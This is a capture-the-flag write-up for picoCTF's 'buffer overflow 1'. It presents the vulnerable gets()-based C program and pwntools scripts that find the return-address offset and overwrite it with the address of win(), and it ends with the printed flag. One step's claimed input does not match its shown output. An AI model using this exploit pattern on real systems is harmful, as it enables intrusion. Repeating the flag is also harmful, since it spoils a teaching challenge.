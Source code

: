 # Description
Control the return address.
Now we're cooking! You can overflow the buffer and return
to the flag function in the program.
You can view source here. And connect with it
using nc saturn.picoctf.net 64695

# Context
On connecting to the server, we are presented with a prompt to enter a string.
```
❯ nc saturn.picoctf.net 64695
Please enter your string: 
123
Okay, time to return... Fingers Crossed... Jumping to 0x804932f
```
The program then prints the string we entered and then returns to the address `0x804932f`.

### Source code
Clearly we must try to return inside the `win` function.
```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
# Solution
The program is vulnerable to a buffer overflow attack. We can overflow the buffer and overwrite the return address to the address of the `win` function.

### How much to overflow?
This python script will write a string of increasing length to the server and print the return address.
When the return address changes, we know that we have overwritten the return address.
```python
def return_address_lookup():
    ret_addres = b'0x804932f'
    i = 31
    while ret_addres == b'0x804932f':
        io = connect()
        print(io.recv())
        i += 1
        io.sendline('a'*i)
        print(f"i = {i}")
        recvd = io.recv()
        print(recvd)
        recvd = strip_return_address(recvd)
        print(recvd)
        ret_addres = recvd

    print(f"Return address changed with {i} chars")
```

This will stop when the return address changes, so now we know that 44
is the offset to overwrite the return address.

Now we can try to overwrite the return address with some trash.
```python
def send_payload(payload):
    io = connect()
    print(io.recv())
    io.sendline(payload)
    print(io.recvall())
    io.interactive()

send_payload(b'A'*48) # 48 to exceed the offset
```
And we get:
```
❯ py solve.py
[+] Opening connection to saturn.picoctf.net on port 56097: Done
b'Please enter your string: \n'
[+] Receiving all data: Done (65B)
[*] Closed connection to saturn.picoctf.net port 56097
b'Okay, time to return... Fingers Crossed... Jumping to 0x41414141\n
```
We have successfully overwritten the return address.

### Writing something useful
Let's se if we can write a more interesting payload, like a
specific sequence of numbers, we'll try `0x01020304`.

```python
def send_overflow(payload):
    offset = b'A'*44
    send_payload(offset+payload)

send_overflow(b'\x01\x02\x03\x04')
```

```
❯ py solve.py
[+] Opening connection to saturn.picoctf.net on port 56097: Done
b'Please enter your string: \n'
[+] Receiving all data: Done (64B)
[*] Closed connection to saturn.picoctf.net port 56097
b'Okay, time to return... Fingers Crossed... Jumping to 0x4030201\n'
```
Seems like the bytes are reversed, fixinig this will not be a problem. 
Lets try `0x10203040`

```
❯ py solve.py
b'Please enter your string: \n'
[+] Receiving all data: Done (64B)
[*] Closed connection to saturn.picoctf.net port 56097
b'Okay, time to return... Fingers Crossed... Jumping to 0x1020304\n'
```
Nice.


### Getting the address of the `win` function
Challange provided the binary, so we can use a dissasembler to get the address of the `win` function.
I'll be using `radare2` but something more like `gdb`, or even `objdump` should work as well.

```
❯ radare2 vuln
[0x080490e0]> aaa
[0x080490e0]> afl
0x08049040    1      6 sym.imp.printf
...
0x08049350    4    101 sym.__libc_csu_init
0x080491f6    3    139 sym.win # <---------------
...
[0x080490e0]> 

```
Address of the `win` function is `0x080491f6`.

### Winning
```python
def send_overflow(payload):
    offset = b'A'*44
    send_payload(offset+payload)

send_overflow(b'\xf6\x91\x04\x08')
```

```
❯ py solve.py
[+] Opening connection to saturn.picoctf.net on port 61705: Done
b'Please enter your string: \n'
[+] Receiving all data: Done (100B)
[*] Closed connection to saturn.picoctf.net port 61705
b'Okay, time to return... Fingers Crossed... Jumping to 0x80491f6\npicoCTF{addr3ss3s_ar3_3asy_b15b081e}'
```